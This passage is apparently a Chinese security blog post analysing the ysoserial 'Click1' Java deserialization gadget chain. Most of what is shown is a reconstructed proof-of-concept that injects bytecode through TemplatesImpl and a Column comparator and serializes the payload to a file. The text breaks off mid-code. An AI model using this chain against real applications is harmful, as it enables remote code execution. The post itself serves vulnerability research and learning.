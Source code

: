 > 原文链接: https://www.anquanke.com//post/id/240706 


# 新的反序列化链——Click1


                                阅读量   
                                **193187**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t01193de13f8453109a.png)](https://p5.ssl.qhimg.com/t01193de13f8453109a.png)



前段时间ysoserial又更新了一个链Click1，网上好像一直没人分析，最近在学习java，就稍微分析下。

## 一、 利用代码

Click1依赖click-nodeps-2.3.0.jar，javax.servlet-api-3.1.0.jar<br>
click-nodeps应该是个冷门项目，搜不到太多信息，所以此链也就看看就好，增加一点关于java反序列化的知识。<br>[https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/Click1.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/Click1.java)<br>
不想重新编译ysoserial的，或者只想要POC的，可以用我重构的代码如下

```
package test;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.click.control.Column;
import org.apache.click.control.Table;
import java.io.*;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.Comparator;
import java.util.PriorityQueue;

public class Click1 `{`
    public static void main(String[] args) throws Exception `{`
        FileInputStream inputFromFile = new FileInputStream("C:\\Users\\Administrator.K\\workspace\\test\\bin\\test\\TemplatesImplcmd.class");
        byte[] bs = new byte[inputFromFile.available()];
        inputFromFile.read(bs);
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]`{`bs`}`);
        setFieldValue(obj, "_name", "TemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final Column column = new Column("lowestSetBit");
        column.setTable(new Table());
        Comparator comparator = column.getComparator();
        final PriorityQueue&lt;Object&gt; queue = new PriorityQueue&lt;Object&gt;(2, comparator);
        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));
        column.setName("outputProperties");
        setFieldValue(queue, "queue", new Object[]`{`obj, obj`}`);
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("1.ser"));
        objectOutputStream.writeObject(queue);
        objectOutputStream.close();
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("1.ser"));
```